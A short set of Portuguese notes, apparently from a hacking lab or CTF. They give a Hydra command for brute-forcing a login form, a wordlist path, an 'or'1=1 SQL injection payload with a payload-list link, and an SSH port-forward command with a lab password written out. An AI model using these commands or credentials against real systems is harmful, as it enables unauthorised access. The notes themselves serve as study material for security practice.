

# Comando Hydra para Ataque Força Bruta em um Formulário

```
hydra -L usuarios -P senhas -s 1234 127.0.0.1 http-post-form "/login.php:login=^USER^&senha=^PASS^:incorretos"
```



Onde login e senha vieram do formulário em questão, que tem os inputs com o name usando esses campos.  

* Pasta com os dicionários de senha: /usr/share/wordlists/metasploit

* Lembrar de testar SQL Injection também, como: 'or'1=1
* https://github.com/payloadbox/sql-injection-payload-list/tree/master/Intruder/exploit

* Lembrar de analisar a aba Inspecionar para procurar dicas

# Comando para Redirect SSH
`ssh -L 1234:127.0.0.1:9090 ckp_06@192.168.100.10` - Senha ckp_06

* Com isso será possível direcionar ataques hydra e acessar via localhost:1234 a porta 9090

# Exploit DB
Site de vulnerabilidades de todos os sistemas do mundo.  
